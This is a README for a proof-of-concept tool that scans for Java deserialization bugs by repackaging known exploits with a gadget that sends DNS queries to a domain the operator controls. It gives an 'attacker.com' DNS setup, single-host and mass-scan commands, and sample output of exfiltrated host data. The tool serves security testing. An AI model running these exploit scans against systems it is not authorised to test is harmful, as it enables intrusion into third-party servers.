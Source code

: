 # Break Fast Serial

A proof of concept that demonstrates asynchronous scanning of deserialization bugs. It repackages [well known exploits](https://github.com/breenmachine/JavaUnserializeExploits) with a modified gadget that triggers DNS queries.

Detailed explanation: http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/

## DNS Chef configuration

The DNS Chef instance is a requirement to see the results of the scan.

This is the typical DNS configuration expected on your domain registrar. It will signify to other DNS servers that all subdomains of `attacker.com` must be resolved by the DNS server host at `10.11.12.13`.
```
NS scanner.attacker.com dnschef.attacker.com
A dnschef.attacker.com 10.11.12.13
```

 - `10.11.12.13` : The public IP address that is 
 - `attacker.com` : A domain name you own

It is highly recommended to use this [modified version of DNS Chef](./dnschef) that decodes the metadata placed by the scanner.

## Single IP scan

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
python breakfast.py -t 192.168.40.1 -p 7001 -d scanner.attacker.com
```

## Mass Scan

Build a list of ip/hostname with open **HTTP** ports. Use a port scanner such as NMAP to identify port that respond to HTTP.
```
$ cat list_servers.txt
192.168.40.10:80
192.168.40.24:8181
192.168.40.100:7001
192.168.40.100:8080
192.168.40.102:8080
192.168.40.102:8001
```

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
cat list_servers.txt | python breakfast.py -stdin -d scanner.attacker.com
```

## Expected response

If the vulnerability is confirmed, the expected trace from DNS Chef is as follows.

```
['843', 'jboss', '192.168.40.24', '8181']
[06:16:44] 69.165.172.165: cooking the response of type 'A' for 3834333a6a626f73733a3132372e302e302e313a38313831.scan.fsociety.com to 127.0.0.1
['914', 'jenkins-cli', '192.168.40.102', '8080']
[06:16:45] 173.194.103.14: cooking the response of type 'A' for 3931343a6a656e6b696e732d636c693a3132372e302e302e313a38303830.scanner.fsociety.com to 127.0.0.1
```
